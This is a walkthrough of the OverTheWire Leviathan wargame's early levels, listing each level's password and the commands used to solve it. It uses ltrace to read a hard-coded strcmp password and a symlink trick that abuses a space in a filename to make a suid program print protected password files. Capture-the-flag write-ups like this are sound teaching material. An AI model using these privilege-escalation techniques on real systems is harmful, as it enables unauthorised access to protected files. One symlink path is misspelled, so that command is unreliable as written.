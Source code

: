 ## leviathan wargame
### leviathan0
Connect leviathan0 with ssh
```
$ ssh leviathan.labs.overthewire.org -p 2223 -l leviathan0
leviathan0
```
### leviathan1
Open the *.bookmarks.html* file in *.backup* directory and look for *pass* string
```
$ grep pass .backup/bookmarks.html
...
rioGegei8m
...
```
### leviathan2
There is a binary with suid bit is set and it checks the password,
I googled about priviledge escalation with suid binaries for about an hour or two but nothing to show for it.
Finally I found this [geekstuff/reverse_engineering_tools](https://www.thegeekstuff.com/2012/03/reverse-engineering-tools/)
I tried the `ltrace` and found that *check* program compares the user input with *strcmp* function
```
ltrace ./check
...
strcmp("asdf\n", "sex")
...
```
After providing the correct password suid program spawn a shell with priviledged rights
```
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
$ cat /etc/leviathan_pass/leviathan2
ougahZi8Ta
```
There is a suid program named *printfile*, it prints files with checking permissions.
Examine the program w,th `ltrace`
```
ltrace ./printfile /etc/hostname
```
It checks the access permissions with *access()* function but there is a vulnerability about the `""`
while calling */bin/cat* program.
Make a file with blank in its name and make a symbolic link with one of its parts
```
mkdir /tmp/xx
cd /tmp/xx
touch test\ pass3
ln -s /etc/leviathan_pass/levitahan3 pass3
```
Test the program
```
~/printfile "test pass3"
Ahdiemoo1j
```

